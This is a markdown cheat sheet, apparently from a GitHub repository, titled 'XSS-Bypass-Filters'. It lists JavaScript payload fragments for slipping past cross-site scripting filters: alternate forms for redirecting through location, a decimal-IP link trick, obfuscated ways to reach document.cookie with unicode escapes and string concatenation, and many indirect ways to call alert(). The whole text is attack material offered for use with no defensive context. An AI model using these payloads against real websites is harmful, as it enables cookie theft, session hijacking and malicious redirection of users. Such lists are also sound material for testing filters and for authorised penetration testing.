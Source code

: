 # XSS-Bypass-Filters

### Redirection
```
document.location=
document['location']=
window.location=
this["window"]["location"]=
document.location.href=
location.href=
location= 
```

### Link

```
//google.com/?=a
//134744072:1234/?a= (decimal ip)
```

### Cookies

```
document.cookie 
document['cookie']
with(document)alert(cookie)
doc\u0075ment.cookie
doc\u0075ment['cookie']
window["doc"+"ument"]["cookie"]
```

### Alert
```
alert(1)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
```
